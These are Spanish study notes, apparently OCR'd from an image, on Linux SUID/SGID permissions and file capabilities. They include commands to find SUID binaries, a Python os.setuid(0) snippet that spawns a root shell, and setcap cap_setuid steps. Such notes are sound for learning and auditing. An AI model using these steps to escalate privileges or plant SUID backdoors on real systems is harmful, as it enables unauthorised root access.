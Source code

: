 ! Permisos especiales SUID y SGID

?$ chmod u+s /usr/bin/python3.9
?$ chmod 4755 /usr/bin/python3.9
SUID ---> chmod u+s binario 
SUID ---> chmod 4755 binario

?$  wich python3.9 | xargs ls -l
El wich nos devuelve la ubicacion del binario y en forma paralela (xargs) tratamos el output con un ls -l

Permisos de python en este ejemplo ---> rwxsr-xr-x

?$  find / -type f -perm -4000
Find para descrubrir files(archivos) desde la raiz los que tengan el privilegio de 4 (SUID)
Aca saldrian todos los binarios con permiso especial SUID

Cuando un binario sea SUID, sea cualquier usuario voy a poder ejecutar el mismo de forma temporal como el propietario

Entre ellos python, con el que podria
importar el repositorio os y empeza

import os 
os.setuid(0) ------> 0 = root 
os.system("whoami") ----> root
os.system("id")
os.system("bash")
os.system("zsh")


Si tuvieramos un archivo con permisos especiales SUID y el mismo puede ejecutar un comando, rapidamente pensariamos en pedir
una bash y poder operar de la misma con los prvilegios del propietario, pero para que esto funcione deberiamos usar la flag -p
o ejecutar una sh

SGID es lo mismo pero para los grupos 

?$ chmod g+s /usr/bin/python3.9
?$ chmod 2755 /usr/bin/python3.9

?$ find / -perm -2000

Permisos de python en este ejmplo: rwxr-sr-x

! CAPABILITIES:

*Capacidad/privilegio de un binario de ejecutar tareas

?$ getcap -r / 2>/dev/null
Para listar desde la raiz de forma recursiva y mandando los errores al null las capabilities de los archivos
que podean alguna

?$ setcap cap_setuid+ep {binario}
Setear una capabilitie (en este caso la de poder setear la id) a un binario

?$ getcap !$   
El !$ lo que hace es devolver lo ultimo escrito en el comando previo

